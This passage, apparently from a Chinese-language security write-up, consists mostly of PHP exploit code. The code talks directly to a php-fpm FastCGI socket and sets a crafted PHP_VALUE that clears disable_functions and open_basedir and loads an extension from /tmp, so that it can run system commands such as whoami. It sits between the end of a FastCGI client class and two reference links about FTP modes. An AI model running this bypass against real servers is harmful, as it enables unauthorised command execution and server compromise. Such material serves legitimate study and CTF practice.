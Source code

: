```php
//            case self::OVERLOADED:
//                throw new Exception('New request rejected; too busy [OVERLOADED]');
//                break;
//            case self::UNKNOWN_ROLE:
//                throw new Exception('Role value not known [UNKNOWN_ROLE]');
//                break;
//            case self::REQUEST_COMPLETE:
//                return $response;
//        }
    }
}
?>
<?php
// real exploit start here
//if (!isset($_REQUEST['cmd'])) {
//    die("Check your input\n");
//}
//if (!isset($_REQUEST['filepath'])) {
//    $filepath = __FILE__;
//}else{
//    $filepath = $_REQUEST['filepath'];
//}

$filepath = "/var/www/html/index.php";
$req = '/'.basename($filepath);
$uri = $req .'?'.'command=whoami';
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php system(\$_REQUEST['command']); phpinfo(); ?>"; // php payload -- Doesnt do anything
$php_value = "unserialize_callback_func = system\nextension_dir = /tmp\nextension = hpdoger.so\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = ";
$params = array(
    'GATEWAY_INTERFACE' => 'FastCGI/1.0',
    'REQUEST_METHOD'    => 'POST',
    'SCRIPT_FILENAME'   => $filepath,
    'SCRIPT_NAME'       => $req,
    'QUERY_STRING'      => 'command=whoami',
    'REQUEST_URI'       => $uri,
    'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
    'PHP_VALUE'         => $php_value,
    'SERVER_SOFTWARE'   => '80sec/wofeiwo',
    'REMOTE_ADDR'       => '127.0.0.1',
    'REMOTE_PORT'       => '9001',//这个不清楚但是不影响我的操作好像
    'SERVER_ADDR'       => '127.0.0.1',
    'SERVER_PORT'       => '80',//起服务的端口
    'SERVER_NAME'       => 'localhost',
    'SERVER_PROTOCOL'   => 'HTTP/1.1',
    'CONTENT_LENGTH'    => strlen($code)
);
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->request($params, $code)."\n";
?>
```


[FTP]: https://www.cnblogs.com/xiaohh/p/4789813.html
[FTP主被动模式]: https://blog.csdn.net/L835311324/article/details/81874628